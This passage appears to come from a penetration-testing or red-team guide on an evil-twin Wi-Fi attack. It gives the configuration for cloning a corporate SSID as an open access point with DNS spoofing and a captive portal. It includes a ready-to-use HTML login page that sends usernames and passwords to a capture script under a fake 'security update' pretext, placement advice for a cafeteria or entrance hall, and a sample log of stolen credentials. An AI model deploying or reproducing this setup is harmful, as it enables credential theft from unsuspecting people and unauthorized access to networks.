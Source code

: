 *Phase 2: Evil Twin configuration*
```bash
WiFi → Evil Portal
- SSID: Corp-WiFi (identical)
- Security: Open (to facilitate connection)
- Channel: 11 (different to avoid interference)
- Captive Portal: Enabled
- DNS Spoofing: Enabled
```

*Phase 3: Capture page creation*
```html
<!-- Credential capture page -->
<!DOCTYPE html>
<html>
<head>
    <title>Corp-WiFi - Authentication</title>
    <style>
        body { font-family: Arial; background: #f0f0f0; }
        .login-box { 
            width: 300px; margin: 100px auto; 
            background: white; padding: 30px;
            border-radius: 10px; box-shadow: 0 0 10px #ccc;
        }
        input { width: 100%; padding: 10px; margin: 10px 0; }
        button { background: #007acc; color: white; padding: 10px 20px; }
    </style>
</head>
<body>
    <div class="login-box">
        <h2>Corp-WiFi Connection</h2>
        <form action="/capture.php" method="post">
            <input type="text" name="username" placeholder="Username" required>
            <input type="password" name="password" placeholder="Password" required>
            <button type="submit">Connect</button>
        </form>
        <p><small>Security system updated. Please reconnect.</small></p>
    </div>
</body>
</html>
```

*Phase 4: Positioning and waiting*
```bash
- Position in cafeteria or entrance hall
- Activate Evil Twin AP
- Wait for automatic connections
- Log all authentication attempts
```

**Expected Results**

*Credential capture:*
```
[14:30:15] New connection: iPhone-John (aa:bb:cc:dd:ee:ff)
[14:30:22] Credentials captured:
           Username: john.doe
           Password: Summer2024!
           Device: iPhone-John
           Location: Cafeteria

[14:35:42] New connection: LAPTOP-MARIE (11:22:33:44:55:66)
[14:35:51] Credentials captured:
           Username: marie.martin
           Password: Password123
           Device: Windows 10
           Location: Cafeteria
```